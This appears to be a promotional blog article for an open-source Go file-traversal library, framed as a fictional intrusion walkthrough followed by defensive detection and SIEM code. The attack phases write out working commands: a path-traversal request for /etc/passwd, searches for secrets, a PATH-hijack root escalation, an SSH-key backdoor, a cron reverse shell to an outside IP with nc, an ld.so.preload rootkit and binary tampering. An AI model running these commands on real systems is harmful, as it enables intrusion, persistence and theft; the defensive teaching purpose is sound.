


Walking the File System Like a Hacker#
A Modern Hacking Ops Mission#
Mission Briefing#
A silent figure moves through digital shadows, navigating the file system of a compromised Linux server with the efficiency of a black ops unit clearing an enemy stronghold. In cybersecurity, file system traversal is the equivalent of tactical movement in hostile terrain — searching, probing, and exploiting, while evading detection.
Knowledge of the file system is power. Once an intruder breaches the perimeter, they operate with surgical precision — locating sensitive data, escalating privileges, and establishing persistence. In the right hands, a single file can be a kill switch, a backdoor, or a direct path to root control.
UNIX-based systems reinforce this reality: “Everything is a file.” Programs, logs, system configurations, even device drivers — all are accessible with the right access and the right tools.
Modern adversaries have elevated file system traversal into an art form — leveraging Living-Off-The-Land Binaries (LOLBins), stealthy privilege escalation exploits, and rootkits that make them ghosts within the system. Speed and efficiency are paramount. Slow operations get attackers caught. Slow responses get defenders breached.
This mission log is a behind-the-scenes look at a fictional — but highly realistic — hacking operation. Red Fox, a well-funded adversary group, is targeting a corporate research server. Their point man, Ghost, moves with precision and intent, using modern techniques that mirror real-world breaches.
The Weapon: Filewalker#
Before we follow Ghost’s infiltration, let’s examine the tool that could dramatically alter the outcome of this mission — for both attacker and defender.
Filewalker is a high-performance file traversal library designed for both security research and enterprise-scale threat hunting. Whether you’re a penetration tester, incident responder, forensic analyst, or systems administrator, its speed and filtering capabilities provide a strategic advantage in navigating complex filesystems.
Unlike traditional tools that crawl directories sequentially, Filewalker is a greedy, task-stealing file scanner with live statistics that unleashes a coordinated swarm of workers to devour the filesystem in parallel.
The Architecture Behind the Speed#
At its core, Filewalker employs a producer-consumer model with a critical twist:

A single producer goroutine walks the directory tree, feeding a buffered channel with file paths. Meanwhile, a configurable army of worker goroutines consumes these tasks, processing files concurrently. This architecture delivers near-linear scaling with worker count — up to 8.65x faster than standard library tools.
Performance That Changes the Game#
The numbers tell a devastating story for traditional tools:

For attackers, this means dramatically reduced detection windows. For defenders, it enables real-time threat hunting at enterprise scale.
Tactical Capabilities#
Filewalker isn’t just fast — it’s tactically flexible:
- Precision Targeting → Filter by file size, modification time, patterns, or extensions
- Stealth Operations → Configurable error handling to continue silently or abort on detection
- Anti-Detection → Safe symlink handling with cycle detection prevents traps and loops
- Battlefield Awareness → Live statistics track progress, speed, and file counts in real-time
- Operational Security → Structured logging with configurable verbosity levels
Memory-Efficient Design#
Filewalker employs advanced techniques to maintain a minimal footprint:
- Atomic Counters → Lock-free statistics tracking without mutex overhead
- Thread-Safe Caching → Efficient directory exclusion without redundant checks
- Buffer Control → Prevents memory exhaustion during large operations
- Allocation Reuse → Minimizes garbage collection pressure during traversal
For both attackers and defenders, this means Filewalker can operate on resource-constrained systems without revealing its presence through excessive resource consumption.
Phase One: Initial Breach#
Target: A high-value Linux server hosting confidential research.
Entry Point: Web application vulnerability.
Objective: Establish a foothold, remain undetected, and conduct rapid reconnaissance.
Ghost identifies a directory traversal vulnerability in the target’s web application — a gaping side door into the fortress. With a crafted URL, he tricks the web server into exposing the /etc/passwd file:
GET /downloads/../../../../etc/passwd HTTP/1.1
Host: target.corp
The response confirms the vulnerability. System user accounts spill onto his screen. Mission go.
He quickly doubles down — using the same exploit to pull application configuration files. Success. Database credentials are exposed. Using these, he pivots — SSHing into the server as webadmin.
The initial foothold is secure.
Phase Two: Reconnaissance#
Ghost doesn’t waste time. He moves like a special operations unit in urban combat — methodically clearing each directory, prioritizing high-value targets.
Intel Gathering#
# Establishing orientation
whoami && pwd
ls -la /var/www
cat /etc/os-release
System Wide Scans#
# Searching for sensitive files
find / -type f -name "*pass*" 2>/dev/null
grep -R "AWS_SECRET" /home 2>/dev/null
find /var -name "*.sql" -o -name "*.db" 2>/dev/null
His scans turn up a hit — an /opt/backups/db_backup.sql file, containing database connection strings. Another foothold.
Why Speed Wins in This Phase#
These manual scans take time, increasing detection risk.
Filewalker would be a force multiplier here — a multi-threaded reconnaissance tool allowing an attacker to rapidly sift through directories while evading detection.
Attacker’s Edge with Filewalker:
filewalker.WalkLimitWithFilter(ctx, "/", callbackFunc, 50, filewalker.FilterOptions{
IncludeTypes: []string{"*.sql", "*.db"},
ModifiedAfter: time.Now().Add(-30 * time.Hour),
})
Filewalker cuts search time by 80%, reducing the window for detection.
Defender’s Note → Enterprise defenders can use Sysmon for Linux, eBPF monitoring, or custom heuristics to detect anomalous file access patterns that indicate rapid enumeration. The speed and volume of file access operations can trigger behavioral analytics even when the tool itself is stealthy.
The Filesystem Tells Stories#
Ghost knows that filesystems are narrative archives — they tell stories about user behavior, system operations, and security posture:
# Finding recently modified files—signs of activity
find / -type f -mtime -1 -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null
# Identifying large files—potential data stores
find / -type f -size +100M 2>/dev/null
# Locating world-writable directories—potential staging areas
find / -type d -perm -o+w 2>/dev/null
Each command reveals another chapter in the system’s story. Ghost reads between the lines, building a mental map of the target environment.
Phase Three: Privilege Escalation#
Intel suggests a weakness. Ghost hunts for privilege escalation paths.
# Scanning for SUID binaries (potential root escalations)
find / -perm -4000 -type f 2>/dev/null
A high-value target appears:
/usr/local/bin/backup.sh — a script running with SUID privileges (executed as root).
Problem: The script calls tar without specifying a full path.
Solution: Ghost hijacks tar, tricking the system into running his script as root.
echo "/bin/sh" > /tmp/tar
chmod +x /tmp/tar
export PATH=/tmp:$PATH
/usr/local/bin/backup.sh
Result: A root shell.
He’s inside the command center.
The Kernel’s Blind Spots#
Ghost knows that Linux has inherent blind spots — areas where the kernel implicitly trusts user input:
# Checking for vulnerable kernel modules
lsmod | grep -i "vulnerable_module"
# Looking for writable service configuration files
find /etc/systemd -type f -writable 2>/dev/null
# Identifying misconfigured capabilities
getcap -r / 2>/dev/null
These commands expose the system’s trust architecture — revealing where Ghost can manipulate the kernel’s decision-making process.
Phase Four: Persistence#
Now Ghost locks down his access.
1️⃣ Planting a Silent Backdoor#
# Injecting SSH keys for persistent access
echo "ssh-rsa AAAAB3Nz...[attacker_key]..." >> /root/.ssh/authorized_keys
Result: Even if credentials change, Ghost retains root access.
2️⃣ Covert Task Execution (Cron Job Persistence)#
# Setting a reverse shell trigger every minute
(crontab -l; echo "** ** * nc 10.0.0.123 4444 -e /bin/sh") | crontab -
3️⃣ Deploying a Rootkit for Stealth#
# Modifying /etc/ld.so.preload to hijack system calls
echo "/lib/libghost.so" > /etc/ld.so.preload
With this, processes, logs, and file changes disappear.
Rootkits like this are virtually undetectable without advanced monitoring.
Modern TTPs Note → While rootkits remain viable, sophisticated adversaries often favor malware-free persistence methods like cloud service abuse, credential stuffing, or modifying legitimate system daemons. The techniques shown here represent just one approach in an evolving threat landscape.
The Art of Hiding in Plain Sight#
Ghost employs advanced techniques to blend into the system’s normal operations:
# Timestomping—matching file timestamps to hide modifications
touch -r /bin/bash /lib/libghost.so
# Creating hidden directories that most tools ignore
mkdir " \t\n"
# Embedding backdoor in legitimate binaries
objcopy --add-section .backdoor=/tmp/payload --set-section-flags .backdoor=noload,readonly /bin/ls /bin/ls.modified
These techniques exploit how administrators and security tools interact with the filesystem — hiding malicious activity in the cognitive blind spots of defenders.
Real-World Parallel → APT38, a state-sponsored North Korean threat actor, has used similar file system reconnaissance and privilege escalation techniques to infiltrate financial institutions, mirroring Ghost’s tactics here. Their ability to rapidly enumerate systems and move laterally is what makes them so dangerous. But defenders who move faster — leveraging automated file traversal — can cut off attackers before they establish persistence.
Filewalker as a Countermeasure#
While attackers need speed, defenders need scale.
The same techniques that make Filewalker valuable for an attacker make it a lethal detection tool for defenders.
1️⃣ Rapid Threat Hunting#
filewalker.WalkLimitWithFilter(ctx, "/etc", callbackFunc, 100, filewalker.FilterOptions{
IncludeTypes: []string{"ld.so.preload", "*.cron"},
ModifiedAfter: time.Now().Add(-1* time.Hour),
})
This would immediately detect Ghost’s persistence mechanisms.
2️⃣ Identifying Suspicious Executables#
filewalker.WalkLimitWithFilter(ctx, "/usr/bin", callbackFunc, 100, filewalker.FilterOptions{
MinSize: 500000,
ModifiedAfter: time.Now().Add(-48 * time.Hour),
})
This flags unknown binaries, helping detect rogue files left behind.
3️⃣ Continuous Monitoring for Anomalies#
filewalker.WalkLimitWithFilter(ctx, "/", callbackFunc, 50, filewalker.FilterOptions{
SymlinkHandling: filewalker.SymlinkReport,
ErrorHandling: filewalker.ErrorHandlingContinue,
})
This ensures hidden directories, obfuscated symlinks, and cloaked payloads don’t escape detection.
The Defender’s Advanced Arsenal#
Defenders can leverage Filewalker’s advanced capabilities to detect even the most sophisticated attackers:
// Detecting timestomping by comparing file modification times with content changes
filewalker.WalkLimitWithOptions(ctx, "/bin", func(path string, info os.FileInfo, err error) error {
// Calculate file hash and compare with baseline
hash, _ := calculateFileHash(path)
if hash != knownGoodHashes[path] && !recentlyUpdated(info.ModTime()) {
fmt.Printf("Potential timestomping detected: %s\n", path)
}
return nil
}, opts)
// Finding hidden directories with unusual names
filewalker.WalkLimitWithFilter(ctx, "/", func(path string, info os.FileInfo, err error) error {
if info.IsDir() && (strings.Contains(path, " ") || strings.Contains(path, "\t")) {
fmt.Printf("Suspicious directory name: %s\n", path)
}
return nil
}, 100, filewalker.FilterOptions{})
// Detecting unauthorized SUID binaries
filewalker.WalkLimitWithFilter(ctx, "/", func(path string, info os.FileInfo, err error) error {
if info.Mode()&os.ModeSetuid != 0 && !isApprovedSUID(path) {
fmt.Printf("Unauthorized SUID binary: %s\n", path)
}
return nil
}, 100, filewalker.FilterOptions{})
These advanced detection techniques turn Filewalker into a powerful forensic tool that can uncover even the most sophisticated attacker techniques.
SIEM Integration for Enterprise Defense#
Filewalker truly shines when integrated into enterprise security operations:
// Streaming Filewalker data to a SIEM for real-time monitoring
func reportToSIEM(host string, stats filewalker.Stats, findings []string) {
// Basic alert with summary statistics
alert := SIEMAlert{
Timestamp: time.Now().UTC(),
Severity: "HIGH",
Source: host,
EventType: "FILESYSTEM_ANOMALY",
FilesProcessed: stats.FilesProcessed,
BytesProcessed: stats.BytesProcessed,
ElapsedTime: stats.ElapsedTime.String(),
SpeedMBPerSec: stats.SpeedMBPerSec,
Findings: findings,
}
// Convert to JSON for most SIEM systems
jsonAlert, _ := json.Marshal(alert)
// Send to SIEM (implementation depends on your SIEM solution)
sendToSIEMEndpoint(jsonAlert)
// Log locally as backup
log.Printf("ALERT: Suspicious file activity on %s - %d files processed in %s",
host, stats.FilesProcessed, stats.ElapsedTime)
}
// Deploying Filewalker across an entire enterprise
func EnterpriseWideMonitoring(systems []string) {
for _, system := range systems {
go func(host string) {
ctx, cancel := context.WithTimeout(context.Background(), 30*time.Minute)
defer cancel()
// Track findings for this host
var findings []string
var findingsMutex sync.Mutex
// Callback function that records suspicious files
detectAnomalies := func(path string, info os.FileInfo, err error) error {
// Various detection logic
if isSuspicious(path, info) {
findingsMutex.Lock()
findings = append(findings, fmt.Sprintf("Suspicious: %s", path))
findingsMutex.Unlock()
}
return nil
}
opts := filewalker.WalkOptions{
ErrorHandling: filewalker.ErrorHandlingContinue,
SymlinkHandling: filewalker.SymlinkReport,
Progress: func(stats filewalker.Stats) {
// Report progress to central monitoring
findingsMutex.Lock()
reportToSIEM(host, stats, findings)
findingsMutex.Unlock()
},
// Add logging for operational visibility
Logger: zapLogger,
LogLevel: filewalker.LogLevelInfo,
BufferSize: 1000, // Larger buffer for enterprise scans
}
// Monitor critical directories
filewalker.WalkLimitWithOptions(ctx, "/etc", detectAnomalies, opts)
filewalker.WalkLimitWithOptions(ctx, "/bin", detectAnomalies, opts)
filewalker.WalkLimitWithOptions(ctx, "/home", detectAnomalies, opts)
// Final report after scan completes
findingsMutex.Lock()
reportToSIEM(host, filewalker.Stats{FilesProcessed: int64(len(findings))}, findings)
findingsMutex.Unlock()
}(system)
}
}
This integration allows security teams to:
- Monitor thousands of systems simultaneously
- Generate structured alerts for SIEM platforms
- Track suspicious files across the enterprise
- Maintain an audit trail of filesystem anomalies
The Filesystem Arms Race: Who Moves Faster?#
Ghost’s success was a mix of precision, speed, and stealth. But defenders can turn the tables with the right tools.
The battlefield is asymmetric:
- Attackers only need one weakness.
- Defenders must cover everything.
- Attackers operate with surgical precision on a single target.
- Defenders must maintain vigilance across thousands of systems.
- Attackers can choose when to strike.
- Defenders must be alert 24/7.
- Attackers can abandon failed attempts.
- Defenders can never abandon their posts.
But defenders have one critical advantage: scale. While Ghost must operate manually on one system at a time, defenders can deploy Filewalker across an entire enterprise simultaneously.
The solution?
- Scale your reconnaissance.
- Automate your threat hunting.
- Stay faster than the attacker.
The Asymmetric Advantage#
Ghost operates in the shadows, one system at a time. But defenders don’t have to. With Filewalker deployed across thousands of endpoints, reconnaissance becomes a floodlight instead of a flashlight — flushing out stealthy intruders before they gain ground.
This is the defender’s true power — the ability to hunt across thousands of systems simultaneously, creating a detection net that even the most skilled attackers struggle to evade.
Final Orders#
Security isn’t about blocking tools; it’s about understanding them better than the adversary.
In today’s cyber warfare, whoever walks the file system fastest wins the fight.
Mission Complete#
Ghost escapes unseen.
But next time, will he?
The filesystem is both the attacker’s playground and the defender’s battlefield. It’s where the most critical assets are stored, where the most sensitive operations occur, and where the most devastating breaches begin.
Filewalker transforms this battlefield:
- For attackers, it’s a force multiplier — reducing detection windows and increasing operational tempo.
- For defenders, it enables enterprise-wide visibility at speeds that outpace even the most sophisticated threats.
The next time Ghost infiltrates a system, he might find himself facing an opponent that can traverse the filesystem 8x faster than traditional tools, detect anomalies in real-time, and respond before he can establish persistence.
In the digital battlefield, speed isn’t just an advantage — it’s survival.
Filewalker is open source.